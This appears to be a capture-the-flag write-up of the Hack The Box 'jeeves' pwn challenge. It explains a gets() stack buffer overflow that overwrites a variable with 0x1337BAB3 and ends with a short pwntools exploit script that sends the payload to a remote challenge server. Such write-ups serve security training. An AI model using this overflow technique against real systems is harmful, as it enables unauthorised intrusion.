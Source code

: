 ```yaml
---
layout: post
title:  Hack the box pwn jeeves 
image: /assets/img/HTB-Logo.png
date:   2022-12-12 11:15:01
tags:
- pwn
description: Basic pwn challenge
categories:
- pwnable.kr
---
```


jeeves is a pwn challenge with an easy to spot vulnerability, we have to overflow a variable so that we put a value in another variable.

When looking at the gets function we see that the buffer is only 44 characters long, and as such we can insert however many characters we want. The buffer has 44 chars then we have an int 4bytes a pointer(8bytes), another 4 bytes and then, the value we need to replace 4bytes.
 ![](/assets/img/2022-09-16-08-55-28.png)

Stack view:

 ![](/assets/img/2022-09-16-08-57-50.png)

44*'a'+4*'a'+8*'a'+4*'a'+p32(0x1337BAB3)

![](/assets/img/2022-09-16-09-43-49.png)

```
from pwn import *
sender=b'a'*60+p32(0x1337BAB3)
#io = process("./jeeves")
io=remote('159.65.90.3',30248)
#io=gdb.debug("./jeeves",'break main  ')
io.sendline(sender)
a=io.recv()
print(a)
io.interactive()
```